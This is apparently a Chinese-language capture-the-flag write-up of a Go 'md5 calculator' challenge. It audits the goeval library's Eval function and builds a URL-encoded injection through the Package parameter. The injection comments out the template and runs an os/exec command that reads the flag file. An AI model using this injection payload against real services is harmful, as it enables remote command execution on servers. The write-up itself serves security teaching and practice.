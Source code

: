 # 0x00 题目描述

作为一个CTFer。口算md5那是基操。什么？你不能口算md5。算了。给你个计算器慢慢算。

# 0x01 解题思路

awdplus基本会给到源码，需要对源码进行代码审计，

# 0x02 代码

Main.go调用了一个goeval的库，代码逻辑很简单，通过两个参数传数据，`expression`被正则过滤，也没有被传入eval函数，不考虑，重点关注`Package`字段。

![image-20220722155126239](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207221551290.png)

跟进eval.go的`Eval`函数。

```go
func Eval(defineCode string, code string, imports ...string) (re []byte, err error) {
	var (
		tmp = `package main

%s

%s

func main() {
%s
}
`
		importStr string
		fullCode string
	 	newTmpDir = tempDir + dirSeparator + RandString(8)
	)
	if 0 < len(imports) {
		importStr = "import ("
		for _, item := range imports {
			if blankInd := strings.Index(item, " "); -1 < blankInd {
				importStr += fmt.Sprintf("\n %s \"%s\"", item[:blankInd], item[blankInd+1:])
			} else {
				importStr += fmt.Sprintf("\n\"%s\"", item)
			}
		}
		importStr += "\n)"
	}
	fullCode = fmt.Sprintf(tmp, importStr, defineCode, code)

	var codeBytes = []byte(fullCode)
	// 格式化输出的代码
	if formatCode, err := format.Source(codeBytes); nil == err {
		// 格式化失败，就还是用 content 吧
		codeBytes = formatCode
	}
//	fmt.Println(string(codeBytes))
	// 创建目录
	if err = os.Mkdir(newTmpDir, os.ModePerm); nil != err {
		return
	}
	defer os.RemoveAll(newTmpDir)
	// 创建文件
	tmpFile, err := os.Create(newTmpDir + dirSeparator + "main.go")
	if err != nil {
		return re, err
	}
	defer os.Remove(tmpFile.Name())
	// 代码写入文件
	tmpFile.Write(codeBytes)
	tmpFile.Close()
	// 运行代码
	cmd := exec.Command("go", "run", tmpFile.Name())
	res, err := cmd.CombinedOutput()
	return res, err
}
```

总结一下就是会格式化输入的数据，生成一个临时目录，生成man.go文件，然后执行go run main.go实现go动态执行的效果。

```
package main

%s

%s

func main() {
%s
}
```

POST输入数据

```
expression=1&Package=fmt
```

生成对应的main.go为

```go
package main

import (
 "fmt"
)



func main() {
fmt.Print(1)
}
```

所以能控制的参数只能是Package，Package被简单处理了下，如果有空格会在第一个空格截取加双引号，所以够构造的payload中不能出现空格。

尝试构造数据，将模板里面的func main注释掉

```
expression=*///&Package=fmt"/*%0a
```

后端生成

```
package main

import (
"fmt"/*
"
)



func main() {
fmt.Print(*///)
}
```

成功注释。只需要整一个exec的payload拼接进去就可以了

百度了下go的exec

```go
package main

import (
"fmt"
"log"
"os/exec"
)

func main() {
	cmd := exec.Command("ls", "-l", "/var/log/")
	out, err := cmd.CombinedOutput()
	if err != nil {
        fmt.Printf("combined out:\n%s\n", string(out))
		log.Fatalf("cmd.Run() failed with %s\n", err)
	}
	fmt.Printf("combined out:\n%s\n", string(out))
}
```

最终payload

```
expression=*///&Package=os/exec"%0a"fmt"%0a)%0afunc%09main()%09{%0a%09cmd:=exec.Command("cat","/ffffLAG")%0a%09out,_:=cmd.CombinedOutput()%0a%09fmt.Printf(string(out))%0a/*
```

成功执行系统命令

![image-20220722171440753](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207221714874.png)

